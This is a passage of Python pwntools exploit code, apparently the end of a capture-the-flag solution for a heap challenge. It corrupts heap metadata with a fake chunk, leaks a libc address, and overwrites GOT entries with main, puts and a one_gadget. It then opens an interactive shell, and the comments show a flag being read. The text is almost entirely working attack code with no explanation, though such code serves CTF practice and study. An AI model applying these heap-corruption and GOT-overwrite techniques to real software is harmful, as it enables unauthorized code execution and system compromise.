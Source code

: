 ```

  fake_chunk = 0x601ffa
  edit(6, "1"*(0x88 + 0x8) + p64(fake_chunk)) 
  edit(6, "1"*0x88 + p64(0x61)) 
  write(0x60 - 0x8, "a")

  if online: 
    write(0x60 - 0x8, "A"*8 + "A"*5 +" ")
  else:
    write(0x60 - 0x8, "A"*8 + "A"*6 +" ")

  read(8)
  r.recvline() #empty
  leak_2=u64( r.recvline().split(" ")[1].split("What")[0].ljust(8,"\x00") )
  log.info( "another leak 0x{0:x}".format(leak_2))
  #Lol .. this is the real leak.. now get it done right..
  free_got= 0x0844f0
  libcBase= leak_2 - free_got
  log.info( "the real libc.. forgot the arena address need to be scaled,whatever that is: 0x{0:x}".format(libcBase))
  
  puts = libcBase + 0x000000000006f690
  stack_chk_fail = libcBase + 0x00000000001190f0
  main = 0x400A88                           #0x48
  edit(8, "A"*8 + "A"*6 + p64(main) + p64(puts) + p64(stack_chk_fail) + p64(onegadget))
   
  interactive() #now run the free
  #$ cat flag.txt
  #flag{d0nt_bE_nu11_b3_dul1} 
  #Just lol.... we used the old libc for onegadget and still it workss.. this is strange xD

exploit()
```



